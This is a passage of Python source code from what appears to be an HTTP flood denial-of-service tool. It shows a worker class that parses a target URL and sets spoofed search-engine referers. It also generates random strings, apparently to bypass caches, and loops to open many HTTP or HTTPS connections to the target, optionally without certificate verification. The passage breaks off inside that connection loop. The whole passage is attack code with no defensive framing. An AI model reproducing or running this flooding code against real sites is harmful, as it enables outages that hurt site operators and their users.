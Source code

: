         self.counter = counter
        self.nr_socks = nr_sockets

        parsedUrl = urllib.parse.urlparse(url)

        if parsedUrl.scheme == 'https':
            self.ssl = True

        self.host = parsedUrl.netloc.split(':')[0]
        self.url = parsedUrl.path

        self.port = parsedUrl.port

        if not self.port:
            self.port = 80 if not self.ssl else 443


        self.referers = [
            'http://www.google.com/',
            'http://www.bing.com/',
            'http://www.baidu.com/',
            'http://www.yandex.com/',
            'http://' + self.host + '/'
            ]


    def __del__(self):
        self.stop()


    #builds random ascii string
    def buildblock(self, size):
        out_str = ''

        _LOWERCASE = list(range(97, 122))
        _UPPERCASE = list(range(65, 90))
        _NUMERIC   = list(range(48, 57))

        validChars = _LOWERCASE + _UPPERCASE + _NUMERIC

        for i in range(0, size):
            a = random.choice(validChars)
            out_str += chr(a)

        return out_str


    def run(self):

        if DEBUG:
            print("Starting worker {0}".format(self.name))

        while self.runnable:

            try:

                for i in range(self.nr_socks):

                    if self.ssl:
                        if SSLVERIFY:
                            c = HTTPCLIENT.HTTPSConnection(self.host, self.port)
                        else:
                            c = HTTPCLIENT.HTTPSConnection(self.host, self.port, context=ssl._create_unverified_context())
                    else:
                        c = HTTPCLIENT.HTTPConnection(self.host, self.port)
